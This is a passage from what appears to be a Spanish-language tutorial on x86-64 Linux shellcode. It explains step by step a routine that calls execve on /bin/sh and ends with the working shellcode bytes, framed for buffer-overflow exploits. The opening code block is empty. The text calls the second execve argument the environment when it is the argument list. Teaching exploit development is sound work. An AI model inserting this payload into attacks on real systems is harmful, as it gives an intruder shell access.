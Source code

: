 ```
```
Explicare directamente lo que esta dentro de ```_start``` por que lo demas ya saben que hace

- ```xor rdx, rdx``` El registo ```rdx``` haciendo una operacion XORing consigo mismo, esto es para que el registro este limpio antes de usarlo, es buena practica nomas, si se le quita no pasa nada

- ```push rdx``` Metemos un null bye al stack para indicar el final de la cadena que se le pasara como argumento a execve

- ```mov rax, 0x68732f2f6e69622f``` Copiamos /bin/sh al registro rax (la cadena esta en hex)

- ```push rax``` Metemos ```rax``` al stack para que pueda ser accedida por el ```rsp```

- ```mov rdi, rsp``` Copiamos la direccion de /bin/sh en ```rdi```, la cual sera el primer argumento de execve, en ese momento el ```rsp``` apunta a la direccion de /bin/sh

- ```push rdx``` Metemos otro byte nulo al stack

- ```push rdi``` Metemos la direccion de /bin/sh en el stack

- ```mov rsi, rsp``` Copiamos la direccion del ```rsp``` en ```rsi```, esto funcionara como segundo argumento de execve, que representa el entorno del programa que se ejecutara

- ```xor rax, rax``` Lo mismo que el primer ```xor```

- ```mov al, 0x3b``` Copiamos el valor 0x3b que representa el numero de la syscall, al registro ```al``` que funciona como un byte inferior de ```rax```, y por ultimo se ejecuta la syscall

Si volvemos a hacer todo el tramite de compilar y enlazar, ya tendremos nuestro ejetutable que nos da una shell, si vemos la shellcode en hex, todo esta perfecto:

![](/assets/img/shellcode/3.png)

Y si ejecutamos, nos da una shell:

![](/assets/img/shellcode/4.png)

Y listo, tenemos otra shellcode:

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```

Y como ultimo, estos dos codigos que te explique, no es la unica forma de llamar a write o execve, ya depende del creador y del contexto donde se usa, y supongo que te ha pasado que cuando haces un BoF, una shellcode te sirve y otra no, aun que tengas todo tu exploit bien.

Eso ha sido todo, gracias por leer ❤
